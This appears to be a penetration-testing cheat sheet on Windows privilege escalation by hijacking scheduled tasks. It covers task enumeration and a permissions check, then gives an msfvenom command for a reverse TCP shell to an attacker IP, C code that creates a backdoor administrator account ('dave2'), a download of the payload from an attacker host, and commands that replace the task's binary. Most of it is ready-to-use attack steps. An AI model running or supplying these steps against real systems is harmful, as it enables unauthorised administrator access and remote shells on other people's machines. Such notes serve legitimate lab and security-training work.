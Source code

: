 Three pieces of information are vital to obtain from a scheduled task to identify possible privilege escalation vectors:
* As which user account (principal) does this task get executed?

If the task runs as NT AUTHORITY\SYSTEM or as an administrative user, then a successful attack could lead to privilege escalation.
* What triggers are specified for the task?

If the trigger condition was met in the past, the task will not run again in the future and therefore, is not a viable target.
* What actions are executed when one or more of these triggers are met?

Programs and scripts specified by actions can be replaced with payloads or exploited.
# Enumerate Scheduled Tasks
```powershell
Get-ScheduledTask
```
```batch
schtasks /query /fo LIST /v
```
# Enumerate interesting Task Binaries
```batch
icacls C:\Path\To\Task\ToRun.exe
```
If there is F, W or those permissions are inherited (I) - we can replace the exe with our own payload.
# Create new malicious task binary
```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=$(IP_ADDRESS) LPORT=$(PORT) -f exe -o reverse.exe
```
Example malicious service to use:
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
On kali, cross-compile the service:
```batch
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
# Hijack interesting task with a malicious binary
Transfer the service to the target machine:
```powershell
iwr -uri http://$(IP_ADDRESS)/adduser.exe -Outfile adduser.exe
```
Backup the original interesting service:
```powershell
move C:\path\to\interesting\TaskToRun.exe Task.exe
```
Replace service binary with new malicious service:
```powershell
move .\adduser.exe C:\path\to\interesting\TaskToRun.exe
```
